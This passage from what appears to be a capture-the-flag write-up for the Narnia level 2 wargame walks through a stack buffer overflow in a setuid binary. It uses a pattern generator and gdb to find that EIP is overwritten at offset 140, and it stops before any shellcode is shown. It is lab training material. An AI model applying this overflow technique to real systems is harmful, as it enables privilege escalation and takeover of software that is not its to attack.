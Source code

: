 The biggest clues here are lines 6 and 12. Copying user supplied data
into a fixed sized array without any bound checking is always asking for 
trouble. `narnia2` binary also runs as setuid narnia3, which leads us to believe
we will be able to control the stack and get it to execute a payload of our 
choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite `EIP`. We can
do this by trial and error, or we can use a pattern generator. I am going to
use my [pattern generator](https://github.com/Svenito/exploit-pattern) instead
of metasploit's one. I'll create a payload big enugh to overflow the 
buffer and then check the value of `EIP`. Pasting that back into the pattern
generator will tell us at what location in the pattern the string occurs.

{% highlight console %}
local $] ./pattern.py 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
{% endhighlight %}

{% highlight console %}
narnia2@melinda:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0xf7fcb898	-134432616
ebx            0xf7fca000	-134438912
esp            0xffffd640	0xffffd640
ebp            0x65413565	0x65413565
esi            0x0	0
edi            0x0	0
eip            0x37654136	0x37654136
eflags         0x10282	[ SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
{% endhighlight %}

{% highlight console %}
local $] ./pattern.py 0x37654136
Pattern 0x37654136 first occurrence at position 140 in pattern.
{% endhighlight %}

We can control `EIP` with whatever we put at position 140 of our payload. But
what do we put there? Well for that we need to figure out where the rest of our
data is going. Using a known payload let's see where our input ends up:
